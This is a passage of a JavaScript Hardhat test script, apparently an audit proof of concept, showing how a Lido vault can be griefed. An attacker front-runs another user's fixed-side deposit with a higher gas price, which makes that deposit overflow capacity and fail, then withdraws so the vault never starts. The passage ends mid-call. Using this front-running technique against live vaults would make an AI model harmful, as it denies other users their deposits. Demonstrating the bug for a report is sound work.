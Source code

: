 ```js
          await lidoVault.connect(addr1).deposit(
            SIDE.FIXED,
            { value: fixedDepositMin * BigInt(16), }
          )

          // Disable automining to simulate front run
          await ethers.provider.send("evm_setAutomine", [false]);
          await ethers.provider.send("evm_setIntervalMining", [2000]);

          console.log("addr2 tries to deposit 20% to start vault")
          await lidoVault.connect(addr2).deposit(
            SIDE.FIXED,
            {
              value: fixedDepositMin * BigInt(4),
              gasPrice: 50_000,
              gasLimit: 20_000_000
            }
          )

          console.log("addr3 frontruns addr2 deposit and deposit 15%")
          await lidoVault.connect(addr3).deposit(
            SIDE.FIXED,
            {
              value: fixedDepositMin * BigInt(3),
              gasPrice: 160_000,
              gasLimit: 20_000_000
            }
          )
          console.log("Now addr2 deposit is rejected cause will overflow vault capacity")

          // Reenable automining
          await ethers.provider.send("hardhat_mine", ["1"]);
          await ethers.provider.send("evm_setAutomine", [true]);

          console.log("After addr2 failed deposit addr3 withdraws")
          const lidoLastRequestId = await lidoWithdrawalQueueContract.getLastRequestId()
          const requestIds = [lidoLastRequestId + BIG_INT_ONE];

          await lidoVault.connect(addr3).withdraw(SIDE.FIXED);
          await finalizeLidoWithdrawalRequests(requestIds, DEFAULTS.fixedSideCapacity)

          const finalizedTrx = await lidoVault
            .connect(addr3)
            .finalizeVaultNotStartedFixedWithdrawals()


          console.log("\nIf deposit frontrun worked vault hasnt started yet")
          console.log(
            "lidoVault.isStarted()",
            await lidoVault.isStarted()
          );
          console.log("\nAddresses vault balances: ");
          console.log(
            "lidoVault.fixedClaimTokenTotalSupply(addr1)",
            await lidoVault.fixedClaimToken(addr1.address)
          );
          console.log(
            "lidoVault.fixedClaimTokenTotalSupply(addr2)",
            await lidoVault.fixedClaimToken(addr2.address)
          );
          console.log(
            "lidoVault.fixedClaimTokenTotalSupply(addr3)",
            await lidoVault.fixedClaimToken(addr3.address)
```